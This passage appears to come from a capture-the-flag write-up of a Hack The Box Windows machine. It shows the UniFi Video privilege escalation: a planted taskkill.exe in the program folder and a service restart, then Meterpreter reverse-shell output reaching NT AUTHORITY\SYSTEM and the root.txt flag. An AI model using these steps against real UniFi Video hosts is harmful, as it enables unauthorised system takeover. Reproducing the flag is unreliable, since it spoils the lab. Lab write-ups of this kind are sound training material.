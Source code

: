 d-----        6/16/2018   9:54 PM                lib                                                                   
d-----        2/25/2019  12:12 AM                logs                                                                  
d-----        6/16/2018   9:55 PM                webapps                                                               
d-----        6/16/2018   9:55 PM                work                                                                  
-a----        7/26/2017   6:10 PM         219136 avService.exe                                                         
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log                                                    
-a----        6/17/2018  11:23 AM      534204321 hs_err_pid1992.mdmp                                                   
-a----        8/16/2018   7:47 PM              0 hs_err_pid2036.mdmp                                                   
-a----        2/27/2019   2:00 AM         254976 taskkill.exe                                                          
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk                                              
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe                                                        
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico                                                        
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe                                                         

{% endhighlight %}

Then, restart service "Ubiquiti UniFi Video"
{% highlight shell %}
PS C:\ProgramData\unifi-video> 
Stop-Service "Ubiquiti UniFi Video"

~~~

PS C:\ProgramData\unifi-video> 
Start-Service "Ubiquiti UniFi Video"

~~~

{% endhighlight %}

With these procedure, we can see that we got a meterpreter shell.<br>
Which has privilege of NT AUTHORITY\SYSTEM.

{% highlight shell %}
[*] Started HTTPS reverse handler on https://10.10.14.23:443
[*] https://10.10.14.23:443 handling request from 10.10.10.104; (UUID: fhbxmi4j) Redirecting stageless connection from /zhbkjtSs9OjYs9myhMWwjg8W-NNUTkclqLtPZjGEDiL1a5TuI with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://10.10.14.23:443 handling request from 10.10.10.104; (UUID: fhbxmi4j) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.10.14.23:443 -> 10.10.10.104:49708) at 2019-02-27 12:36:46 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
{% endhighlight %}

As usual, root.txt is in the directory "C:\Users\Administrator\Desktop".

{% highlight shell %}
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  842   fil   2018-06-17 04:54:54 +0300  Ubiquiti UniFi Video.lnk
100666/rw-rw-rw-  282   fil   2018-06-17 03:56:45 +0300  desktop.ini
100666/rw-rw-rw-  32    fil   2018-06-17 17:53:24 +0300  root.txt

meterpreter > cat root.txt
CF559C6C121F683BF3E56891E80641B1
{% endhighlight %}
